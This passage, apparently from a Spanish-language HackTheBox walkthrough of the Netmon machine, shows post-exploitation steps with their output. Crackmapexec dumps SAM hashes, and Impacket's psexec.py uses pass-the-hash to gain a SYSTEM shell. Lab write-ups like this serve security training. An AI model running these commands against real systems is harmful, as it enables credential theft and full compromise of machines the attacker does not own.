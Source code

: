 <h2 id="Extras">Obteniendo Información Extra y Otras Formas de Acceder a la Máquina</h2>

Una vez que hemos podido agregar nuestras contraseñas al grupo de administradores, podemos aprovechar para obtener los SAM Hashes de todos los admins, esto lo podemos hacer con **Crackmapexec** de la siguiente manera:
```bash
crackmapexec smb 10.10.10.152 -u 'BerserkP' -p 'B3rs3rkP123$!' --sam
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\BerserkP:B3rs3rkP123$! (Pwn3d!)
SMB         10.10.10.152    445    NETMON           [+] Dumping SAM hashes
SMB         10.10.10.152    445    NETMON           Administrator:...:...:...:::
SMB         10.10.10.152    445    NETMON           Guest:...:...:...:::
SMB         10.10.10.152    445    NETMON           DefaultAccount:...:...:...:::
SMB         10.10.10.152    445    NETMON           BerserkP:...:...:...:::
SMB         10.10.10.152    445    NETMON           [+] Added 4 SAM hashes to the database
```

Estos hashes los podemos usar para aplicar un **PassTheHash** para conectarnos usando otras herramientas, por ejemplo, la herramienta **psexec** y si estuviera abierto el protocolo RDP, sería con la herramienta **xfreerdp**, vamos a probar con cada una.

| **PassTheHash** |
|:-----------:|
| *En seguridad informática, pasar el hash es una técnica de piratería que permite a un atacante autenticarse en un servidor o servicio remoto utilizando el hash NTLM o LanMan subyacente de la contraseña de un usuario, en lugar de solicitar la contraseña de texto sin formato asociada como suele ser el caso.* |

<br>

<h3 id="psexec">Accediendo a la Máquina con Psexec</h3>

Por defecto, deberías tener instalado el **psexec.py**, buscalo con el comando **locate**:
```bash
locate psexec.py
/usr/local/bin/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
```

En mi caso, voy a copiar el del directorio **impacket** y lo voy a usar desde donde lo tenga copiado:
```bash
cp /usr/share/doc/python3-impacket/examples/psexec.py .
```

Y ahora, vamos a usarlo, utilizando la parte final del hash perteneciente al usuario administrador:
```bash
python3 psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes :d0f7...
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file AYHbMdFh.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service Fomi on 10.10.10.152.....
[*] Starting service Fomi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
